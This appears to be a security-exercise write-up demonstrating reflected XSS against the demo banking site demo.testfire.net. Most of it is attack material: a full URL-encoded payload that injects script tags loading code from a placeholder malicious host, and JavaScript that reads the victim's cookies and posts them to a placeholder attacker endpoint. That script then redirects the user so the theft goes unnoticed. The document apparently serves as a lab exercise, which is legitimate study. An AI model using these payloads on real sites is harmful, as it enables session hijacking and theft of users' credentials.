

# Reflective XSS

## How Logged In User Should be Targeted

The logged in user already has a valid session with the Wep Application, hence, the user can execute the internal URLs or links without any consent to login. Therefore any URL posted on the browser by the URL can take him directly within the application, due to a still having a valid session.


## Victim Web Page or Link

We will be using the link `http://demo.testfire.net/bank/queryxpath.jsp` to conduct the refective XSS. It is perfect candidate for the attack because it accepts the parameter in form of key-value pair with the name `query`, and anything after `query=` is considered as the value of the repective parameter key name.


## Malicious URL

The Malicious URL to send the detial to the designated server looks like below:

`https://demo.testfire.net/bank/queryxpath.jsp?query=%22%20placeholder=%22Put%20your%20query%20here%22%20/%3E%20%3Cscript%20src=%22https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js%22%3E%3C/script%3E%20%3Cscript%20src=%22https://maliciousScriptURL/maliciousScript.js%22%3E%3C/script%3E%20%3Cinput%20value=%22Query%22%20type=%22button%22%20%20onclick=%22maliciousScript()%22%20/%3E%20%3Cinput%20type=%22hidden%22%20value=`

The simple formatting of the above Malicious URL is given below:
```
http://demo.testfire.net/bank/queryxpath.jsp?query=" placeholder="Put your query here" />
 <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
 <script src="https://maliciousScriptURL/maliciousScript.js"></script>


<input value="Query" type="button"  onclick="maliciousScript()" /> 

<input type="hidden" value=
```

## Malicious Script

The Malicious Script loaded fetch via link `https://maliciousScriptURL/maliciousScript.js` by the web page upon infected by refective XSS has below source code:

```
function maliciousScript() {
	var val = document.getElementById("query").value;
  
  // Posting the cookie to 'maliciousServerEndpoint' on the 'maliciousServer'
  var cookieData = document.cookie;
	$.post("[maliciousServerEndpoint]",
	  {
		"userCookie": cookieData
	  });
   // We will send the feedback from the user, so that the user does not gets suspecious
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
```

I wasn't able to inject the below code section within the URL due to the character encoding limitation.
```
<script>
function maliciousScript() {
	var val = document.getElementById("query").value;
  var cookieData = document.cookie;
	$.post("maliciousServerEndpoint",
	  {
		"userCookie": cookieData
	  });
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
</script>
```

Malicious function with the name `maliciousScript` reads the value from textbox and send the input value to the `maliciousServerEndpoint`.

Screenshot:

